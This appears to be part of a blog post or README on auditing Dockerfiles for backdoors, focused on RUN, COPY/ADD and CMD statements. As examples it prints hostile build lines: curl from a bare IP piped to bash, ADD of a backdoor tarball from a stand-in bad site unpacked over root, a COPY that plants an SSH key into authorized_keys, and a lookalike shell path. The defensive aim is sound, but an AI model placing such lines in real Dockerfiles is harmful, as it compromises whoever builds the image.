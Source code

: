 It is here mostly for completeness (or in case i want to research this again in the future).

* [IDN homograph attack](https://en.wikipedia.org/wiki/IDN_homograph_attack)
* [Unicode Bidirectional Text Spoofing](http://unicode.org/reports/tr36/tr36-8.html#Bidirectional_Text_Spoofing)

### The RUN statement
Before i use a container i like to examine the what it runs on build time. I usually trace the all the `RUN` statements from the `Dockerfile`. Check for any out-of-ordinary commands being executed, any downloads that shouldn't be there etc.

I've seen a fair amount of the following attempt to download "backdoored" binaries in `Dockerfiles`.
```Dockerfile
RUN curl -sL https://IP/setup_14.x | bash -
```

Make sure that the image you're building, downloads files from official sources and pay attention at commands that redirect or pipe their output.

### The COPY/ADD statement
Pay close attention to `COPY` commands and more specificaly the
`COPY --from=<name|index>`.

Remember the multi-stage builds from above? This is where the COPY command may
come in handy.
```Dockerfile
FROM debian #index 0
...
FROM redhat #index 1
...
FROM backdoor #index 2
...
FROM debian #index 3
...
# Makes it hard to track what index each image has
COPY --from=2 /etc/sshd/ssh_host_key ~/.ssh/authorized_keys
```

Another statement is `ADD` that performs very similar tasks as `COPY` does but
with a few twists. One of them is the ability to fetch files from the network
to be added to the image.

```Dockerfile
ADD https://some.bad.site/backdoor.tgz /tmp
RUN tar zxf /tmp/backdoor.tgz -C /
```

### The CMD statement
This defines the default command to be passed to the `ENTRYPOINT` when the
image is run. I make sure the default command looks ok and if it refers to a
script, i inspect its contents to try and figure out what it does.

```Dockerfile
CMD ["/bin/ba.sh"]
```
